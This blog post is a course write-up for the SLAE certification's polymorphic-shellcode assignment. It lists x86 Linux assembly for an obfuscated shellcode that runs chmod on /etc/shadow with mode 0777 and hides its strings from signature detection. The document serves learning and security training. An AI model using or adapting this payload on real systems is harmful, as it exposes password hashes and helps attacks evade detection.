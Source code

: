 ```yaml
---
author: pol@blog
comments: true
date: 2014-05-12 10:20:04+00:00
layout: post
slug: slae-assignment-6-polymorphic-shellcode
title: 'SLAE Assignment 6: Polymorphic Shellcode'
wordpress_id: 2413
categories:
- Programmazione
- SLAE
tags:
- asm-x86
- slae
---
```


This is the sixth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:



	
  1. Take up 3 shellcodes from shell-storm and create polymorphic versions of them

	
  2. The polymorphic version _**cannot**_ be larger than 150% of existing one

	
  3. Bonus point for making it shorter than original




The first shellcode that i chose to change is a chmod("/etc/shadow", 0777)  which original code can be found [here](http://shell-storm.org/shellcode/files/shellcode-590.php).

The code of the polymorphic version is shown below.

    
    global _start
    section .text
    _start:
    	cdq
    	mov al,0xe
    	inc al
    	push edx
    	mov edx,0x655c5150
    	add edx,0x12131311
    	push edx
    	mov edx,0x2f636873
    	rol edx,16
    	push edx
    	mov dword [esp-4],0x74652f2f
    	sub esp,4
    	mov ebx,esp
    	mov cx,0x1ff
    	int 0x80
    	inc eax
    	int 0x80
